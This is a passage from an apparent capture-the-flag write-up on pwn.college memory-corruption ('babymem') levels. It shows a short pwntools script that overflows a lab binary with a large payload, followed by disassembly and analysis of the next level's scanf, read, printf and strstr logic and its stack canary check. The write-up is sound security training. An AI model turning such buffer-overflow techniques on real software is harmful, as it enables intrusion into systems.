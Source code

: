 **My script:**
```
from pwn import *
r = process('/challenge/babymem_level11.1')
r.recvuntil(b'Payload size: ')
r.sendline(b'32768')
r.recvuntil(b'Send your payload (up to 32768 bytes)!')
r.sendline(b'A'*32768
        )
r.interactive()
```
# 12. Level 12.0.
**I don't know exactly how I want to describe this challenge, however I think it is nice.**

Let's debug the program, there are some important segments.

```
0x00005609a6523c8d <+715>:   lea    rax,[rbp-0x50]
0x00005609a6523c91 <+719>:   mov    rsi,rax
0x00005609a6523c94 <+722>:   lea    rdi,[rip+0x1add]        # 0x5609a6525778
0x00005609a6523c9b <+729>:   mov    eax,0x0
0x00005609a6523ca0 <+734>:   call   0x5609a65231e0 <__isoc99_scanf@plt>
```
   
```
0x00005609a6523f0d <+1355>:  mov    rdx,QWORD PTR [rbp-0x50]
0x00005609a6523f11 <+1359>:  mov    rax,QWORD PTR [rbp-0x48]
0x00005609a6523f15 <+1363>:  mov    rsi,rax
0x00005609a6523f18 <+1366>:  mov    edi,0x0
0x00005609a6523f1d <+1371>:  call   0x5609a65231b0 <read@plt>
```
```
0x000055add60bd0ec <+1834>:  mov    rax,QWORD PTR [rbp-0x48]
0x000055add60bd0f0 <+1838>:  mov    rsi,rax
0x000055add60bd0f3 <+1841>:  lea    rdi,[rip+0x23d5]        # 0x55add60bf4cf
0x000055add60bd0fa <+1848>:  mov    eax,0x0
0x000055add60bd0ff <+1853>:  call   0x55add60bc180 <printf@plt>
```

```
0x00005609a652411c <+1882>:  mov    rax,QWORD PTR [rbp-0x48]
0x00005609a6524120 <+1886>:  lea    rsi,[rip+0x2442]        # 0x5609a6526569
0x00005609a6524127 <+1893>:  mov    rdi,rax
0x00005609a652412a <+1896>:  call   0x5609a6523210 <strstr@plt>
0x00005609a652412f <+1901>:  test   rax,rax
0x00005609a6524132 <+1904>:  je     0x5609a6524157 <challenge+1941>
0x00005609a6524134 <+1906>:  lea    rdi,[rip+0x2435]        # 0x5609a6526570
0x00005609a652413b <+1913>:  call   0x5609a6523150 <puts@plt>
0x00005609a6524140 <+1918>:  mov    rdx,QWORD PTR [rbp-0x78]
0x00005609a6524144 <+1922>:  mov    rcx,QWORD PTR [rbp-0x70]
0x00005609a6524148 <+1926>:  mov    eax,DWORD PTR [rbp-0x64]
0x00005609a652414b <+1929>:  mov    rsi,rcx
0x00005609a652414e <+1932>:  mov    edi,eax
0x00005609a6524150 <+1934>:  call   0x5609a65239c2 <challenge>
0x00005609a6524155 <+1939>:  jmp    0x5609a6524168 <challenge+1958>
0x00005609a6524157 <+1941>:  lea    rdi,[rip+0x243c]        # 0x5609a652659a
0x00005609a652415e <+1948>:  call   0x5609a6523150 <puts@plt>
0x00005609a6524163 <+1953>:  mov    eax,0x0
0x00005609a6524168 <+1958>:  mov    rcx,QWORD PTR [rbp-0x8]
0x00005609a652416c <+1962>:  xor    rcx,QWORD PTR fs:0x28
0x00005609a6524175 <+1971>:  je     0x5609a652417c <challenge+1978>
0x00005609a6524177 <+1973>:  call   0x5609a6523170 <__stack_chk_fail@plt>
```
- As you see, the program has functionn **strstr()**, let's search about it.
    - char *strstr (const char *s1, const char *s2);